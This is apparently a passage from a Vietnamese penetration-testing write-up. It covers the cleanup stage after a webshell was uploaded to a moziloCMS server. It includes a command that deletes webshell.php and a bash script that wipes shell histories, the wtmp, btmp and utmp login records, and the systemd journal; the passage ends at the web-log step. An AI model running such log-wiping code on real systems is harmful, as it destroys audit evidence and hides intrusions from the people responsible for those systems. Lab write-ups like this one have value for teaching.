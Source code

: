 ![alt text](image-82.png)

Xóa payload đã upload lên web 
```bash
rm -f /var/www/html/mozilo/kategorien/Willkommen/dateien/webshell.php
```
![alt text](image-83.png)

Đảm bảo xóa log trên /var/www nhưng kiểm tra log trên /var/www/ và không tồn tại log 
```bash
find /var/www -type f -name “*.log”
```
![alt text](image-84.png)

```bash
#!/bin/bash

echo "[*] Xóa nội dung lịch sử shell (bash, zsh)..."
unset HISTFILE
export HISTSIZE=0
export HISTFILESIZE=0
export SAVEHIST=0

truncate -s 0 ~/.bash_history 2>/dev/null
truncate -s 0 ~/.zsh_history 2>/dev/null
truncate -s 0 /root/.bash_history 2>/dev/null
truncate -s 0 /root/.zsh_history 2>/dev/null

echo "[*] Xóa dữ liệu phiên SSH (giữ lại file)..."
truncate -s 0 /var/log/wtmp 2>/dev/null
truncate -s 0 /var/log/btmp 2>/dev/null
truncate -s 0 /var/run/utmp 2>/dev/null

echo "[*] Xóa dữ liệu lệnh trong journalctl..."
journalctl --rotate
journalctl --vacuum-time=1s
rm -rf /var/log/journal/* 2>/dev/null

echo "[*] Xóa nội dung log web Apache/nginx (không xóa file)..."
```